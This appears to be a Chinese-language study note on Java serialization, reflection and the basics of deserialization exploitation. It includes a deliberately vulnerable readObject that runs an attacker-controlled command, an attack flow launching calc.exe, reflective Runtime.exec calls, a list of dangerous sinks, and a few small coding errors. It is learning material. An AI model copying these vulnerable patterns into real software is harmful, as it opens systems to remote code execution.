## 基础概念
### 前置知识
1. 类&class对象&对象
   1. 三种获取class对象的方法
      ```java
        // 方式1：Class.forName()（最常用，动态）
        Class<?> clazz1 = Class.forName("java.lang.String");

        // 方式2：类名.class（编译时已知）
        Class<?> clazz2 = String.class;

        // 方式3：对象.getClass()（已有实例）
        String s = "hello";
        Class<?> clazz3 = s.getClass();
      ``` 
   2. Class 对象和普通对象的区别
   3. 防止概念混淆类比sql语句中向表中写入数据的代码，而class对象可以类比为表头，一个个实例对象可以理解为表中的一条条数据
2. 静态方法&实例方法
   1. 调用：静态方法可以直接通过类名调用，不需要实例；实例方法需要先有对象，然后通过对象名调用
   2. 
3. 私有化构造器
   1. 效果：类内部可以通过new创建新实例，类外部不能用 new 创建实例
   2. 为什么要私有化构造器
   3. 反射突破限制：用 setAccessible(true) 强行突破
   4. 总结：构造器私有 = 外部不能 new = 必须通过类提供的静态方法获取实例（如 Runtime.getRuntime()）。这是一种封装设计，用于控制对象的创建方式。但反射可以用 setAccessible(true) 强行突破这个限制。
### 序列化和反序列化
1. 什么是序列化
   序列化（serialization）是将内存中的“对象”（一组数据和行为）转换成一种可以持久化存储（如保存到硬盘） 或可以在网络传输的格式（如字节流，json，XML）
   反序列化是与序列化相反的过程：从这种格式中重构出原来的对象
   ```
   java对象->-[序列化]->字节流-[网络传输/持久化存储]->-字节流->-[反序列化]->java对象
   ```
    **一句话记住核心**：
    对象是“活的”，活在特定JVM的内存中，有地址、有引用关系、有运行时状态。序列化就是给对象“拍张照片”，把它的“内在信息”提取出来，变成可以在任何时间、任何地点“复活”它的数据。【这也解释了为什么反序列化如此危险——因为“复活”过程中，攻击者可以篡改照片里的内容，让复活的对象执行恶意行为。】
2. 为什么要序列化
   1. 对象在内存中的本质：在java中，一个对象存在于JVM的堆内存中，包含三部分：
      1. 对象头（Header）：包含GC状态，锁信息，类元数据指针（指向哪个类）
      2. 实例数据（Instance Data）：字段的值（int、引用地址）
      3. 填充对齐（Padding）：为了内存对齐
     **关键**：对象中存储的引用是内存地址，该地址只在当前JVM进程中有意义
   2. 对象为什么不能做字节流做的事
      1. 进程间通信：RMI（Java远程方法调用）、RPC（远程过程调用）
         1. 假设进程A想要把一个User对象发送给进程B会遇到的问题
            1. 内存地址无效，内部指针断裂：进程A中的 user 对象地址 0x1234，在进程B的地址空间中可能对应完全不同的数据。User 对象内部引用了 name 字符串对象（地址 0x5678），这个地址在进程B中毫无意义
            2. JVM内部结构差异：不同JVM版本、不同厂商（Oracle vs OpenJDK）、不同GC实现，对象的内存布局可能完全不同
            3. 进程A和B的 User 类版本可能不同（新增字段、删除字段、修改类型）
         2. 示例
            错误
            ```java
            // 进程A - 试图直接发送内存中的对象
            User user = new User("Alice", 25);
            sendToProcessB(user);  // 如果这样做，只会发送指针值 0x1234  
            ```
            正确
            ```java
            // 进程A
            byte[] data = serialize(user);  // 变成: [0xAC, 0xED, 0x00, 0x05, ... "Alice", 25 ...]
            sendBytesToProcessB(data);

            // 进程B
            byte[] received = receiveBytes();
            User user = (User) deserialize(received);  // 重建：新的内存地址，新创建的String对象
            ```
         3. 序列化的本质：把内存中的关系网转化成扁平的、自描述的数据流，丢弃地址信息，保留逻辑信息
      2. 分布式缓存：如 Redis、Memcached 存储Java对象
         1. 为什么对象不能直接存入缓存：Redis 是一个独立于JVM之外的进程（用C语言编写）。它与JVM没有任何内存共享。
            1. Redis不认识JVM对象：Redis只能存储字符串（二进制安全的）、列表、哈希、集合等基本数据结构
            2. 内存布局不同：JVM对象有对象头、Mark Word、Klass指针，C语言的结构体完全不同
            3. 无法重建类定义：Redis不知道 User 类有哪些字段、各字段类型是什么
         2. 示例：
            错误
            ```java
            // 直接存储对象引用（完全无效）
            redis.set("user:123", userObject);  // Redis客户端会尝试把对象toString()或报错

            // 或者更糟：试图存储内存地址
            redis.set("user:123", String.valueOf(userObject.hashCode())); // 毫无意义       
            ```
            ```java
            // 存：对象 → 序列化字节数组 → 作为字符串/二进制存入Redis
            byte[] data = serialize(user);
            redis.set("user:123".getBytes(), data);  // 存的是字节流

            // 取：取出字节数组 → 反序列化 → 恢复对象
            byte[] cached = redis.get("user:123".getBytes());
            User user = (User) deserialize(cached);  // 完整恢复，字段值都正确 
            ```
         3. 序列化后的字节流包含了完整的类元信息（类名、字段名、字段类型）。反序列化时，JVM根据类名找到本地class定义，按字段名逐个赋值     
      3. 深度复制：通过序列化实现对象的深拷贝
         1. 【前置知识：深度复制（Deep Copy）是创建一个新对象，并递归复制原对象内部所有引用类型字段指向的对象，使得原对象和复制对象完全独立，互不影响。】
         2. 为什么对象不能直接完成深拷贝？很多人会用 clone() 方法，但 Object.clone() 只能完成浅复制
         3. 为什么序列化能完成深拷贝？
             序列化会递归遍历整个对象图（对象引用的对象，再引用的对象...）
             反序列化时全新创建所有对象，所有引用都是新地址，与原对象完全独立
      4. Session持久化：Tomcat等容器将Session对象保存到文件或数据库【Tomcat 需要将用户的 Session 保存到硬盘（比如重启后恢复登录状态）】
         1. 为什么Session对象不能直接保存到文件？   
            1. 内存地址无效：重启后JVM是全新的进程，原来的内存地址全部废弃
            2. 对象关系复杂：Session 中可能存了 User、ShoppingCart、List<Product> 等，形成对象图
            3. 静态字段不保存：类的静态变量属于Class对象，不属于实例，不应被持久化
            4. 资源对象不可序列化：Session 中可能包含 Connection（数据库连接）、FileInputStream 等，这些对象本身无法持久化
         2. 序列化实现
            ```java
            // 简化版：Tomcat 保存 Session
            session.getAttribute("user")     // 得到 User 对象
            byte[] data = serialize(user);   // 序列化成字节
            writeToFile("SESS12345.ser", data);  // 保存到文件

            // Tomcat 重启后恢复
            byte[] data = readFromFile("SESS12345.ser");
            User user = (User) deserialize(data);  // 在新的JVM中重建对象
            session.setAttribute("user", user);
            ```
      
3. Java 原生序列化机制【Java从JDK 1.1开始提供原生序列化支持，核心在 java.io 包中】
4. 序列化字节流格式（Java 序列化后的字节流有固定格式，了解它有助于分析恶意 payload，也能绕过简单的WAF检测）
   示例
    
   重要常量（定义在ObjectStreamConstants中） 
       
5. Serializable
   1. Serializable-标记接口
       什么是标记接口：空接口，没有任何方法,它的作用仅仅是“标记”某个类具备某种能力。
        ```java
        // java.io.Serializable 源码
        package java.io;

        public interface Serializable {
        // 什么都没有！
        }
        ``` 
   2. Serializable的作用：告诉JVM这个类可以被序列化
       ```java
        // ✅ 可以被序列化
        public class User implements Serializable {
            private String name;
            private int age;
        }

        // ❌ 不能被序列化 - 会抛出 NotSerializableException
        public class Product {
            private String name;
            private double price;
        }     
        ```
   3. 为什么要显式声明
        ```java
        public class UnserializableClass {
        private String data;
        }

        // 尝试序列化
        UnserializableClass obj = new UnserializableClass();
        serialize(obj);  // ❌ 抛出 java.io.NotSerializableException```
        继承关系中的序列化：父类实现了Serializable子类无需自动可序列化无需再写implements；父类没有实现Serializable，子类想序列化需要手动implements
6. writeObject-序列化入口
   1. writeObject()位于ObjectOutputStream中，完整签名是`public final void writeObject(Object obj) throws IOException`
      1. 签名详解
      2. throws IOException：处理异常
         1. try-catch
            ```java
            try {
                oos.writeObject(user);
            } catch (IOException e) {
                System.out.println("序列化失败：" + e.getMessage());
            } 
            ```
         2. 往上抛（上层方法签名也要加上throws）
            ```java
            public void myMethod() throws IOException {
                oos.writeObject(user);
            } 
            ```
   2. 默认行为：如果没有定义JVM会自动调用默认的序列化逻辑
      ```java
      ObjectOutputStream oos=new ObjectOutputStream(baos);
      oos.writeObject(obj) ;
   3. 完整实现序列化对象流程
      1. 创建要序列化的对象
         ```java 
            public class Person implements Serializable{
                    private String name;
                    private int age;
                    private static final long serialVersionUID=1L;
                    public Person(String name,int age){
                        this.name=name;
                        this.age=age;

                    }
                    @Override
                    public String toString(){
                        return "Person{name="+name+",age="+age+"}";
                    }


                }
                Person p=new Person("张三", 18);
          ```
      2. 创建ByteArrayOutputStream（内存缓冲区）
         ```java
            ByteArrayOutputStream baos=new ByteArrayOutputStream();
                    System.out.println("original size:"+baos.size());
                            
         ``` 
      3. 创建ObjectOutputStream（包装流）
         ```java
         ObjectOutputStream oos=new ObjectOutputStream(baos);
         ``` 
      4. 执行writeObject（核心操作）
         ```java
         oos.writeObject(oos);
         ``` 
      5. 刷新并关闭
         ```java
         // flush()：把缓冲区里的数据全部写出去
         // 有些流有缓冲区（攒一批再写），flush 强制立刻写
         oos.flush();

         // close()：关闭流，释放系统资源
         // 注意：close() 内部会调用 flush()
         oos.close();

         // 不需要再调用 baos.close()，因为 oos.close() 已经关了底层流
         ``` 
      6. 获取序列化之后的字节数据
         ```java
          byte[] data=baos.toByteArray();
            System.out.println("bytesize="+data.length);
            for (int i=0;i<Math.min(10,data.length);i++){
                System.out.printf("%02X", data[i]);}
         ``` 
      7. 完整代码运行结果 
      8. 完整的序列化执行流程
   4. 多次调用writeObject引用共享
7. readObject-反序列化入口
   1. 【基础讲解】
      1. 完整方法签名`public final Object readObject() throws IOException, ClassNotFoundException`
      2. 返回值说明：
         ```java
         Object obj=readObject();//返回值是Object类型
         Person p=(Person)obj;//需要强制转换成具体类型（向下转型）
         ```
      3. 完整反序列化流程
         1. 从内存字节数组中反序列化
            代码示例
            ```java
               import java.io.*;

               public class reaObject {
                   public static class Person implements Serializable {
                       private String name;
                       private int age;
                       private static final long serialVersionUID=1L;
                       public Person(String name,int age){
                           this.name=name;
                           this.age=age;
                       }
                       @Override
                       public String toString(){
                           return "Person{name="+name+",age="+age+"}";

                       }
                   }
                   
                   public static void main(String[] args) throws IOException,ClassNotFoundException {
                       Person p1=new Person("tom", 18);
                       ByteArrayOutputStream baos =new ByteArrayOutputStream();
                       ObjectOutputStream oos=new ObjectOutputStream(baos);
                       oos.writeObject(p1);
                       oos.flush();
                       oos.close();
                       byte[] data=baos.toByteArray();
                       ByteArrayInputStream bais=new ByteArrayInputStream(data);
                       ObjectInputStream ois=new ObjectInputStream(bais);
                       Object obj=ois.readObject();
                       ois.close();
                       bais.close();
                       Person p2=(Person)obj;
                       System.out.println("originalObject:"+p1);
                       System.out.println("restoredObject:"+p2);
                       System.out.println("original==restored: " + (p1 == p2));   
                   }  
               }
            ```
            运行结果
             
         2. 从文件中反序列化
            1. 代码示例
               ```java
               import java.io.*;
               public class FileUnserialization {
                   public static class Person implements Serializable{
                       private String name;
                       private int age;
                       private static final long serialVersionUID=1L;
                       public Person(String name,int age){
                           this.name=name;
                           this.age=age;
                       }
                       @Override
                       public String toString(){
                           return "Person{name:"+name+",age:"+age+"}";
                       }
                   }
                   public static void main(String[] args) throws IOException,ClassNotFoundException{
                       Person p1=new Person("tom", 18);
                       FileOutputStream fos=new FileOutputStream("1.bin");
                       ObjectOutputStream oos=new ObjectOutputStream(fos);
                       oos.writeObject(p1);
                       oos.flush();
                       oos.close();
                       System.out.println("save:ok");
                       FileInputStream fis=new FileInputStream("1.bin");
                       ObjectInputStream ois=new ObjectInputStream(fis);
                       Object obj=ois.readObject();
                       Person p2=(Person)obj;
                       ois.close();
                       System.out.println("restore:ok");
                       System.out.println("originalObject:"+p1);
                       System.out.println("restoredObject:"+p2);
                       System.out.println("original==restored: " + (p1 == p2));   
                   }
               }
               ``` 
            2. 运行结果：
      4. 异常处理
         1. 必须处理的异常：IOException, ClassNotFoundException【readObject 声明的两个异常】
         2. 处理方法
            1. try-catch
            2. throws往上抛
         3. 常见的异常及原因
      5. 多个对象读取：**读取和写入的顺序必须一致**
         ```java
           // 写入顺序
           oos.writeInt(100);           // 1. 写 int
           oos.writeUTF("Hello");       // 2. 写 String
           oos.writeObject(person);     // 3. 写对象

           // 读取顺序（必须一致）
           int num = ois.readInt();     // 1. 读 int ✅
           String str = ois.readUTF();  // 2. 读 String ✅
           Person p = (Person) ois.readObject();  // 3. 读对象 ✅

           // 如果顺序不一致会报错：
           // String str = ois.readUTF();  // ❌ 但下一个字节是 int，会乱码
         ``` 
      6. 自定义readObject【*】
         1. 为什么需要自定义readObject
         2. 基本语法
            ```java
               public class MyClass implements Serializable {
                   private static final long serialVersionUID = 1L;
                   private String data;
                   
                   // 自定义反序列化方法
                   // 方法签名必须是：private void readObject(ObjectInputStream in)
                   private void readObject(ObjectInputStream in) 
                           throws IOException, ClassNotFoundException {
                       // 先调用默认的读取
                       in.defaultReadObject();
                       
                       // 然后再做自定义的事情
                       // 比如：验证、解密、初始化等
                   }
               }       
            ```
      7. **raedObject和构造方法的关系：** 反序列化不调用构造方法，反序列化是通过特殊方式直接创建对象的
   2. 【进阶探索】（漏洞核心） 
      2. readObject方法体中的常见形式
         ```java
         private void readObject(ObjectInputStream in) throws Exception{
            //模式一，先调用默认反序列化
            in.defaultReadObject();//恢复普通字段
            //模式二，然后可能有一些自定义操作
            // ⚠️ 危险操作通常出现在这里
         }
         ```
      3. defaultReadObject()详解【**如果攻击者能够通过字节流控制某些字段的值并且这些字段被用在危险操作中就会产生漏洞！**】
         1. 做什么：恢复对象的普通字段（非transient）
         2. 记住什么：将字节流中的字段值天填回对象
         3. 危险吗：本身不危险，但如果攻击者能控制字段值
         4. 不调用会这样：字段保持默认值（null/0/false）
      4. **危险操作**
         1. 执行命令`Runtime.getRuntime().exec(cmd)`【RCE】
         2. 反射调用`method.invoke(obj,args)`【任意方法调用】
         3. JNDI查找`new InitialContext().lookup(name)`【JNDI注入】
         4. 类加载`Class.forName(classname)`【加载恶意类】
         5. 文件操作`new FileOutputStream(path)`【写文件】
         6. URL访问`new URL(url).openConnection()`【SSRF】
         7. 反射创建对象`constructor.newInstance(args)`【实例化任意类】
      5. 漏洞代码示例
         ```java
            public class VulnerableClass implements Serializable {
                private String command;  // 攻击者能控制这个字段
                
                private void readObject(ObjectInputStream in) 
                        throws IOException, ClassNotFoundException {
                    in.defaultReadObject();  // 恢复 command 字段
                    
                    // 🔥 危险！直接把 command 拿去执行
                    Runtime.getRuntime().exec(command);
                }
            }         
         ``` 
         1. 攻击流程：
            1. 创建VulnerableClass对象，将command字段的值设为calc.exe
            2. 将对象序列化
            3. 将序列化后的字节流发送给受害者
            4. 受害者反序列化该字节流时，命令自动执行
         2. 触发时机
           ```java
            ObjectInputStream ois = new ObjectInputStream(inputStream);
            Object obj = ois.readObject();  // ← 这里会触发 readObject()
            // 流程：
            // 1. 读取字节流
            // 2. 发现要创建 VulnerableClass 对象
            // 3. 创建空对象
            // 4. 自动调用 VulnerableClass.readObject()  ← 危险代码执行
            // 5. 返回对象         
           ```
           误区：readObject不是构造函数，而是在对象创建后调用
                1. 对象被特殊方式创建（不调用构造函数）
                2. 字段被恢复（defaultReadObject）
                3. readObject 被调用
      6. 分析readObject漏洞的步骤
         1. 找到类中的readObject方法
            ```java
            // 搜索关键词：private void readObject
            private void readObject(ObjectInputStream in) throws ... {
            // ...
            } 
            ```
         2. 看是否调用了defaultReadObject()
            ```java
            private void readObject(ObjectInputStream in) throws ... {
                in.defaultReadObject();  // ← 如果调用了，字段值被恢复
                // ...
            }
            ``` 
         3. 看是否执行了危险操作
            ```java
            private void readObject(ObjectInputStream in) throws ... {
                in.defaultReadObject();
                
                // ⚠️ 重点关注这些：
                String cmd = this.command;           // 攻击者控制的字段
                Runtime.getRuntime().exec(cmd);      // 危险操作
                
                // 或者
                Class.forName(this.className);       // 攻击者控制的类名
                
                // 或者
                Method m = this.getMethod();         // 攻击者控制的方法
                m.invoke(obj);
            }
            ```
         4. 判断沙发上攻击者可控
            ```java
            // 攻击者能控制的值：
            // - 所有非 transient 字段（通过 defaultReadObject 恢复）
            // - 通过 in.readXxx() 读取的自定义数据

            // 攻击者不能直接控制：
            // - final 字段（但如果被反射修改...）
            // - transient 字段（除非自定义读取）
            ```
      7. 典型漏洞链模式
         1. 直接执行危险操作
            ```java
            private void readObject(ObjectInputStream in) throws ... {
                in.defaultReadObject();
                Runtime.getRuntime().exec(this.cmd);  // 直接执行
            }
            ``` 
         2. 间接调用
            ```java
            private void readObject(ObjectInputStream in) throws ... {
                in.defaultReadObject();
                this.transformer.transform(this.input);  // 调用其他类的方法
                // 如果 transformer 和 input 都可控 → 可链式调用
            }
            ``` 
         3. 触发其他类的readObject
            ```java
            // 类A的readObject中使用了类B
            private void readObject(ObjectInputStream in) throws ... {
                in.defaultReadObject();
                this.map.put(this.key, this.value);  
                // 如果 map 是特殊类型（如HashMap），put操作可能触发其他类的操作
            }
            ```
      8. 分析真实漏洞模式【 Commons Collections 的 Transformer 链（简化版）】
         ```java
            // 攻击者关注的核心：InvokerTransformer
            public class InvokerTransformer implements Transformer, Serializable {
                private String iMethodName;
                private Class[] iParamTypes;
                private Object[] iArgs;
                
                private void readObject(ObjectInputStream in) {
                    in.defaultReadObject();  // 恢复方法名、参数
                    
                    // 🔥 危险：通过反射调用任意方法
                    Method m = input.getClass().getMethod(iMethodName, iParamTypes);
                    m.invoke(input, iArgs);
                }
            }         
         ```
         分析思路
            1. 发现readObject：InvokerTransformer 有 readObject
            2. 调用defaultReadObject：恢复了 iMethodName、iParamTypes、iArgs
            3. 危险操作：反射调用任意方法
            4. 可控性：攻击者可以通过字节流控制要调用的方法名和参数
            5. 结论：如果能把 input 控制成 Runtime 对象，就能执行命令
8. serialVersionUID：Serializable机制中的版本控制机制，是一个版本号，用于验证序列化的对象和当前类的定义是否兼容
    1. 示例
        ```java
                public class User implements Serializable {
            // 显式声明
            private static final long serialVersionUID = 123456789L;
            
            private String name;
            private int age;
        }   
        ```
    2. 工作原理：反序列化端对于不同的类都有不同的serialVersionUID值，每次反序列化端将字节流反序列化时都会将字节流头部的serialVersionUID与指定生成的类的serialVersionUID本地存储的值进行比较
      1. 核心要点：
         1. 每个类独立管理自己的UID
            ```java
            // 完全独立，互不干扰
            public class User implements Serializable {
                private static final long serialVersionUID = 1L;  // 值可以很小
            }

            public class Admin implements Serializable {
                private static final long serialVersionUID = 999L; // 值可以很大
            }

            public class Data implements Serializable {
                // 没有显式声明，JVM自动计算一个很大的hash值
            } 
            ```
         2. 只比较同名类的UID
            ```java
            // 场景：字节流要创建 User 对象
            byte[] data = ... // 里面写的是 "User" 类

            // JVM 不会拿 User 的 UID 去和 Product 的 UID 比较
            // 一定是：User流UID vs User本地类UID
            //        Product流UID vs Product本地类UID
            //        Order流UID vs Order本地类UID 
            ```-
      2. 如果不写JVM在编译时会根据类的结构（字段名，字段类型，方法等）自动计算出一个hash值
9. transient字段
   1. transit字段不会被序列化
      ```java
      public class User implements Serializable {
            private String name;           // ✅ 会被保存
            private transient String password;  // ❌ 不会被保存
        }
      ```
   2. 反序列化之后该字段会变成默认值
      ```java
        // 序列化前：User(name="alice", password="secret123")
        // 序列化后保存：只有 name="alice"
        // 反序列化后：User(name="alice", password=null)  ← password 没了
      ```    
   3. 默认值速查表
      
   4. 只有实例变量且不是transient的才会被序列化，static修饰的也不会被序列化
      ```java
        public class User implements Serializable {
            private String name;           // 实例变量 → 会序列化
            private static String version; // 静态变量 → 不会序列化（属于类，不属于对象）
            private transient String pwd;  // transient → 不会序列化
        }
      ``` 
   5. 重点关注情况
      ```java
        // 如果看到 transient 但同时有自定义 readObject
        private transient String cachedValue;

        private void readObject(ObjectInputStream in) {
            in.defaultReadObject();
            this.cachedValue = compute(this.someField);  // 重新计算
            // 如果 compute 依赖可控的 someField，仍然是攻击点
        }
      ```  
10. readResolve()
    1. 返回值会替换掉反序列化出来的对象
       ```java
        private Object readResolve() {
            return SOME_INSTANCE;  // 返回什么，调用方就得到什么
        }
       ``` 
    2. 示例
       ```java
        public class Singleton implements Serializable {
            private static final Singleton INSTANCE = new Singleton();
            
            private Singleton() {}
            
            public static Singleton getInstance() {
                return INSTANCE;
            }
            
            // 🔑 关键：这个方法的返回值会替换反序列化出来的对象
            private Object readResolve() {
                return INSTANCE;  // 永远返回单例，丢弃反序列化创建的对象
            }
        }
       ```
       效果
       ```java
        // 即使反序列化了，得到的也是单例对象
        Singleton s1 = Singleton.getInstance();
        byte[] data = serialize(s1);
        Singleton s2 = (Singleton) deserialize(data);

        System.out.println(s1 == s2);  // true（被 readResolve 替换了）
        // 如果没有 readResolve，结果是 false
       ``` 
    3. 为什么对漏洞利用很重要：readResolve 会破坏你的攻击
       1. 示例：
            ```java
            public class Vulnerable implements Serializable {
                private String command;
                
                private void readObject(ObjectInputStream in) throws Exception {
                    in.defaultReadObject();
                    // 🔥 危险操作：执行命令
                    Runtime.getRuntime().exec(command);
                }
                
                // 🛡️ 防御机制：替换掉恶意对象
                private Object readResolve() {
                    return new Vulnerable();  // 返回一个新的（无恶意）对象
                }
            }
            ``` 
       2. 攻击流程被破坏
          1. 攻击者构造恶意序列化数据（command="calc.exe"）
          2.  受害者反序列化
          3.  readObject() 执行 → calc.exe 被执行 ✅
          4.  然后 readResolve() 执行 → 恶意对象被替换成新对象
          5.  调用方拿到的是无害的新对象    
          结果：虽然命令执行了，但后续利用可能被阻断  
       3. 关键点
          
    4. 调用顺序：**先执行readObject后执行readResolve并替换结果**
       1. 创建对象（不调用构造函数）
                    ↓
       2. defaultReadObject() 恢复字段
                    ↓
       3. readObject() 执行（如果存在）
                    ↓
       4. readResolve() 执行（如果存在）← 返回值替换最终结果
                    ↓
       5. 返回给调用方
    5. 需要关注readResolve的场景
    6. 一句话总结：readResolve() 就是反序列化的"最后一道关卡"——无论 readObject() 创建了什么对象，readResolve() 的返回值才是调用方最终拿到的。对攻击者来说，这意味着你的恶意对象可能被替换掉；但 readObject() 中的代码仍然会执行，所以命令执行类攻击不受影响
### 反射调用机制
1. 什么是反射：反射是在运行程序时动态获取类的信息并操作，不需要在编译时知道类名
   ```java
    // ❌ 普通方式：编译时就要知道类名
    Runtime rt = Runtime.getRuntime();
    rt.exec("calc");

    // ✅ 反射方式：运行时才知道类名
    Class<?> clazz = Class.forName("java.lang.Runtime");  // 类名可以是字符串变量
    Method m = clazz.getDeclaredMethod("getRuntime");
    Object rt = m.invoke(null);
    m = clazz.getDeclaredMethod("exec", String.class);
    m.invoke(rt, "calc"); 
   ```
2. 反射类对比【Constructor、Method、Field】
3. Class.forName():反射的入口方法，也是最常用的类加载方式【让JVM加载一个类并返回这个类的class对象】
   1. 为什么需要
      ```java
        // 普通方式：编译时就要知道类名
        Runtime rt = new Runtime();  // 必须写死 "Runtime"

        // Class.forName()：运行时才知道类名
        String className = userInput;  // 用户输入决定类名
        Class<?> clazz = Class.forName(className);  // 动态加载 
      ```
   2. 执行流程
      
      【**类初始化时静态代码会被执行（漏洞点）**】
   3. Class.forName() 在反序列化中的作用
      1. 不是直接去序列化，而是加载 Gadget 类
         ```java
            // 反序列化漏洞利用中，Class.forName() 常用于：
            // 1. 加载恶意类
            // 2. 触发静态代码块
            // 3. 获取 Class 对象以便后续反射

            // 示例：加载恶意类触发 RCE
            Class.forName("com.evil.Exploit");
            // 如果 Exploit 类的静态代码块中有 Runtime.exec()，就会执行
         ```
      2. 配合反射调用命令
         ```java
            // 完整流程
            Class<?> clazz = Class.forName("java.lang.Runtime");  // 1. 加载类
            Method m1 = clazz.getDeclaredMethod("getRuntime");    // 2. 找方法
            Object rt = m1.invoke(null);                          // 3. 获实例
            Method m2 = clazz.getDeclaredMethod("exec", String.class); // 4. 找方法
            m2.invoke(rt, "calc");                                // 5. 执行命令   
         ```
4. getRuntime方法：是用来获取 Runtime 类的唯一实例（单例对象）的静态方法。Runtime 类的构造器是私有的（单例模式），不能直接 new
5. invoke()：是真正执行方法的命令。
   1. `public Object invoke(Object obj, Object... args)`
   2. 普通调用&反射调用
        ```java
        rt.exec("calc");  ←→  exec.invoke(rt, "calc");
        Runtime.getRuntime() ←→ getRuntime.invoke(null);
        ```
   3. invoke() 参数传递详解
      ```java
        // 方法签名
        Object invoke(Object obj, Object... args)

        // 参数1 obj：调用的对象
        //   - 静态方法：传 null
        //   - 实例方法：传对象实例
        // 参数2 args：方法参数，可变参数

        // 示例1：无参方法
        Method m1 = clazz.getDeclaredMethod("noParam");
        m1.invoke(obj);  // 第二个参数可以不写

        // 示例2：一个参数
        Method m2 = clazz.getDeclaredMethod("oneParam", String.class);
        m2.invoke(obj, "hello");

        // 示例3：多个参数
        Method m3 = clazz.getDeclaredMethod("twoParams", String.class, int.class);
        m3.invoke(obj, "hello", 123);

        // 示例4：数组参数
        Method m4 = clazz.getDeclaredMethod("arrayParam", String[].class);
        m4.invoke(obj, new Object[]{new String[]{"a", "b"}});
      ``` 
   4. 返回值
   5. 方法调用的返回值接收对比【invoke() 总是有返回值，但用不用取决于你——需要就接，不需要就不接。】  
      
     
   6. 什么时候需要将返回值进行强制类型转换
      invoke() 返回值是否需要类型转换，取决于你后续要做什么。只存储或打印 → 不用转；要调用方法、访问字段、做运算 → 必须转。转换的本质是告诉编译器"我知道这个对象真正的类型是什么"，从而获得该类型的方法和属性访问权限。
      要不要转换？看后续操作：
      存储打印不用转（Object 够用）
      调用方法必须转（找具体方法）
      数学运算必须转（拆箱成基本类型）
      传给 API 看参数（接受 Object 就不用）        
6. getDeclaredMethod&&getMethod
   1. 对比 
   2. 在Gadget链分析中
      ```java
        // 大量 Gadget 链需要调用私有方法
        // getMethod 拿不到私有方法，所以必须用 getDeclaredMethod + setAccessible

        // 例如：InvokerTransformer 反射调用私有方法
        Method m = clazz.getDeclaredMethod("privateMethod", paramTypes);
        m.setAccessible(true);  // 关键！
        m.invoke(target, args);
      ``` 
7. setAccessible()：作用是绕过 Java 的访问权限检查，让你可以调用 private 方法、访问 private 字段。
   1. 正常情况下不能访问私有成员
      ```java
        public class User {
            private String secret = "这是秘密";
            
            private void hiddenMethod() {
                System.out.println("这是私有方法");
            }
        }

        User user = new User();
        // user.secret;        // ❌ 编译错误：private 不能直接访问
        // user.hiddenMethod(); // ❌ 编译错误：private 不能直接调用
      ``` 
   2. 加上`field.setAccessible(true)`
       ```java
        // 获取字段
        Field field = clazz.getDeclaredField("secret");
        field.setAccessible(true);  // 私有字段需要

        // 读取值
        Object value = field.get(obj);

        // 设置值
        field.set(obj, newValue);
       ``` 
8. 反射中处理不同类的规则
   1. 私有构造器+单例（Runtime、Desktop）
      1. 调用静态方法构造唯一实例
         ```java
         Class<?> clazz=Class.forName("java.lang.Runtime");
         Method grt=clazz.getDeclaredMethod("getRuntime");
         Object rt=grt.invoke(null);
         Method exec=clazz.getDeclaredMethod("exec",String.class);
         exec.invoke(rt,"calc");
         ```
      2. 强行构造新实例，会破坏单例（可以但不推荐）
         ```java
         Class<?> clazz=Class.forName("java.lang.Runtime");
         Constructor cst=clazz.getDeclaredConstructor();
         cst.setAccessible(true);
         Object nrt =cst.newInstance();
         Method exec=clazz.getDeclaredMethod("exec",String.class);
         exec.invoke(nrt,"calc");
   2. 私有构造器+静态方法，不提供实例（System、Collections）
      1. 不用获取实例，直接获取并调用静态方法
         ```java
         Class<?> clazz=Class.forName("java.lang.System");
         Method m=clazz.getDeclaredMethod("currentTimeMillis");
         Long time=(Long)m.invoke(null);
         ``` 
   3. 公有构造器（StringBuilder、ArrayList）
      1. 先获取构造器然后newInstance()构造新实例
         ```java
         Class<?> clazz=Class.forName("java.lang.StringBuilder");
         Constructor cst=clazz.getDeclaredConstructor();
         Object sb=cst.newInstance();
         Method append=clazz.getDeclaredMethod("append",String.class);
         append.invoke(sb,"hell0");
         ```
9. 反射中获取/修改字段的值
   ```java
   Field f=clazz.getDeclaredField("name");
   f.setAccessible(true);
   Object value=f.get(obj);
   f.set(obj,"ll");
11. 反射代码
   `Class<?> clazz=class.forname("java.lang.Runtime");`通过完整的类名查找并加载该类
   `Method m=clazz.getDeclaredMethod("getRuntime");`获取类的静态方法getRuntime
   `Object rt=m.invoke(null);`通过invoke调用getRuntime方法来获取Runtime类的唯一实例
   `m=clazz.getDeclaredMethod("exec",String.class);`获取类的实例方法exec
   `m.invoke(rt,"calc")`调用exec方法执行系统命令  
12. 代码详解
    ```java
    // 第1步：Class.forName("类全名")
    // 作用：加载类，返回 Class 对象
    // 类全名 = 包名.类名
    Class<?> clazz = Class.forName("java.lang.Runtime");
    // 注意：写错类名会抛 ClassNotFoundException

    // 第2步：getDeclaredMethod("方法名", 参数类型...)
    // 作用：获取类中声明的方法（包括私有）
    Method getRuntime = clazz.getDeclaredMethod("getRuntime");
    // 参数说明：
    // - "getRuntime"：方法名
    // - 后面没有参数类型，因为 getRuntime() 没有参数

    // 第3步：invoke(对象, 参数...)
    // 作用：调用方法
    // - 如果是静态方法，第一个参数传 null
    // - 如果是实例方法，第一个参数传对象实例
    Object runtime = getRuntime.invoke(null);
    // getRuntime 是静态方法，所以传 null

    // 第4步：获取 exec 方法
    // exec 方法有一个 String 参数
    Method exec = clazz.getDeclaredMethod("exec", String.class);

    // 第5步：调用实例方法
    // exec 是实例方法，需要传 runtime 对象
    exec.invoke(runtime, "calc");
    ```
13. 常用的反射方法调用
    1.  反射调用 System.currentTimeMillis()
      ```java
      Class<?> clazz=Class.forName("java.lang.System");
      Method m=clazz.getDeclaredMethod("currentTimeMillis");
      Long time=(Long) m.invoke(null);
      ```
    2. 反射创建 StringBuilder 并调用 append()
      ```java
      Class<?> clazz=Class.forName("java.lang.StringBuilder");
      Object sb=clazz.getDeclaredConstructor().newInstance();
      Method m=clazz.getDeclaredMethod("append",String);
      m.invoke(sb,"hello");
      ```
    3. 反射调用 Runtime.exec("calc")（必须能默写）
      ```java
      Class<?> clazz=Class.forName("java.lang.Runtime");
      Method m =clazz.getDeclaredMethod("getRuntime");
      Object rt =m.invoke(null);
      m=clazz.getDeclaredMethod("exec",String.class);
      m.invoke(rt,"calc");
      ``` 
14. 常见异常及原因 
15. 反射关键点总结
### 魔术方法链
1. readObject()的调用时机：正好是对象字段已恢复但对象还没返回给调用者的“窗口期”，攻击者利用这个窗口期，通过操作已恢复的字段触发 gadget 链执行恶意代码，执行完后对象才返回，此时应用层代码根本不知道恶意操作已经发生。
2. 漏洞触发的本质
